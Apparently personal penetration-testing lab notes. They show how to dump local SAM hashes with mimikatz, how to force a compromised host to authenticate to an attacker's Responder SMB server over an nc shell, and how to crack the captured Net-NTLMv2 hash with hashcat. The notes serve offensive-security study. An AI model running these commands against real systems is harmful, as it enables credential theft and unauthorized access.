 ## Passing NTLM Hashes
First, we open up mimikatz and run the following-
```
privilege::debug
```
```
token::elevate
```
```
lsadump::sam
```

##  Cracking Net-NTLMv2


If we've obtained code execution on a remote system, we can easily force it to authenticate with us by commanding it to connect to our prepared SMB server, and using a tool called responder, capture the hash. 

Start a listener and connect to the target machine
```
nc 192.168.50.211 4444
```
run `whoami`, and then which ever user u find, run
```
net user <user-found>
```

setting up responder
We'll need to run **ip a** to retrieve a list of all interfaces
```
ip a
```

Then, we'll run **responder** as **sudo** to enable permissions needed to handle privileged raw socket operations for the various protocols.
```
sudo responder -I tap0
```
if tap0 doesnt exist we can use
```
sudo responder -I tun0
```
Our next step is to request access to a non-existent SMB share on our Responder SMB server using the bind shell we had in the first place.
in the nc terminal run this 
```
dir \\192.168.119.2\test
```
![[Pasted image 20250604153511.png]]
, then copy the hash and crack using hashcat
run the below to see which `hascat` version to use
```
hashcat --help | grep -i "ntlm"
```
and crack using this cmd
```
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
